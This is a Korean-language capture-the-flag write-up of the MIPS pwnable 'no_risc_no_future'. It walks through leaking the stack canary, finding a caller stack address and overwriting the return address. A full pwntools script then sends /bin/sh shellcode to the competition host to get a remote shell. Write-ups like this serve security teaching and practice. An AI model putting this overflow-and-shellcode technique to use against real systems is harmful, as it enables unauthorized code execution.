








# no_risc_no_future
### #mips #pwn

제목 그대로 risc 형식의 mips 아키텍쳐로 된 바이너리에 대한 pwnable 문제이다.

Ghidra로 열어본 바이너리는 이런 모습이다.




64바이트짜리 배열에 256바이트를 입력할 수 있게 해준다.  
그리고 입력한 버퍼를 출력시켜준다.



그리고 Canary 외에는 별다른 보호기법도 걸려있지 않는 것으로 보아,
buffer overflow 이후, 쉘코드를 이용하여 쉘을 얻어내면 될 것 같다.


대강 순서는 이러하다.

#### 1. puts 함수를 이용해서 canary를 leak
#### 2. 쉘코드를 올릴 곳을 탐색(필자는 이전 함수의 스택공간을 이용)
#### 3. 쉘코드를 올린다.

ctf 당일에는 2번에서 쉘코드를 어디에 올릴지 도저히 생각이 안나서 못풀었는데 후에 생각해보니까 256바이트나 입력할 수 있으면 caller의 스택공간을 이용할 수 있다는걸 뒤늦게 알았다 ;; (저조한 pwnable 실력)



우선 canary는 보다시피 sp(s8)+92 영역에 있다.



main함수의 prologue 과정은 이러하고...



read하는 버퍼는 sp(s8)+28 부터 입력한다.

그러므로 우리는 아무값이나 64바이트 입력 하게 되면 canary가 leak 된다는 것을 알 수 있다.

그 다음 step은 shellcode를 올릴 곳을 물색해야한다.


우선 mips에서의 스택 구조는 이렇게 생겼다.



위는 main함수를 부르는 caller 함수인 __libc_start_main 함수의 sp 주소이다. 서브루틴인 main 함수는 이 sp를 기준으로 또다른 스택 공간을 형성할 것이다.

그러면 이 때, __libc_start_main 함수의 스택공간은 Previous Stack Frame 이 되는 것이다.

여기서 쉘코드를 올릴 스택공간을 찾는 것은 "무조건 이 위치이다!" 라는 공식같은 건 아니고 바이너리를 분석하면서 발견되는 부분이다.



위는 main 함수의 ra 가 위치한 스택 이후의 공간이고 이렇게 이미 지나온 스택 주소를 다시 갖고있는 주소가 있다. (이런 경우가 간혹 있었던 것 같다.)

그러면 우리는 ra가 있던 스택주소에 0x7fff6ccc 를 overwrite시키고, 0x7fff6cb0 부터 256 바이트를 넘지않게 shellcode를 넣으면 되는 것이다.

```python
from pwn import *
#s=remote('localhost',1338)
s=remote('noriscnofuture.forfuture.fluxfingers.net', 1338)
context.arch = 'mips'
shell = asm(shellcraft.mips.linux.sh())
print(len(shell)) #len
#shell=b"\x50\x73\x06\x24\xff\xff\xd0\x04\x50\x73\x0f\x24\xff\xff\x06\x28\xe0\xff\xbd\x27\xd7\xff\x0f\x24\x27\x78\xe0\x01\x21\x20\xef\x03\xe8\xff\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x23\xab\x0f\x02\x24\x0c\x01\x01\x01/bin/sh\x00" 
# len = 60
# invalid shellcode :,(

# leak canary
s.sendline('a'*64)
data=s.recv(65)
canary=s.recv(12)
canary2=u32(b'\x00'+canary[0:3])
print("canary: "+hex(canary2))

payload='a'*64
payload+='a'*4 # canary
payload+='a'*4 # empty
payload+='a'*4 # ra
payload+='a'*24+'kkkk'
s.send(payload)
fp=s.recv()
fp=fp[fp.find(b'kkkk')+4:fp.find(b'kkkk')+8]
fp=u32(fp)
log.info("%s"%hex(fp))
s.sendline(b'a'*64+p32(canary2)+b'a'*4+p32(fp)+shell)
for i in range(0,8):
    s.sendline('')
s.interactive()
```



.  
.  
.  


**Contact : a42873410@gmail.com**